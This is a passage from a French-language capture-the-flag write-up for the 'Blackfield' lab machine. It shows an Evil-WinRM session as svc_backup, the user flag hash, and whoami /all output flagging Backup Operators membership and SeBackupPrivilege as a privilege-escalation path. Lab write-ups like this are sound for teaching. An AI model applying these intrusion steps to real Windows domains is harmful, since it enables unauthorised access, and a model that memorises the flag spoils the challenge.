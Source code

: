 	*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
	blackfield\svc_backup
	*Evil-WinRM* PS C:\Users\svc_backup\Documents> 

Et le flag user.txt

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> cat user.txt
	92cab391b2f2cac3e09435926ca4469d
	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> 

## Priv esc

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /all
	
	USER INFORMATION
	----------------
	
	User Name             SID
	===================== ==============================================
	blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


	GROUP INFORMATION
	-----------------
	
	Group Name                                 Type             SID          Attributes
	========================================== ================ ============ ==================================================
	Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
	BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
	BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
	BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
	BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
	NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
	Mandatory Label\High Mandatory Level       Label            S-1-16-12288


	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                    State
	============================= ============================== =======
	SeMachineAccountPrivilege     Add workstations to domain     Enabled
	SeBackupPrivilege             Back up files and directories  Enabled
	SeRestorePrivilege            Restore files and directories  Enabled
	SeShutdownPrivilege           Shut down the system           Enabled
	SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
	SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
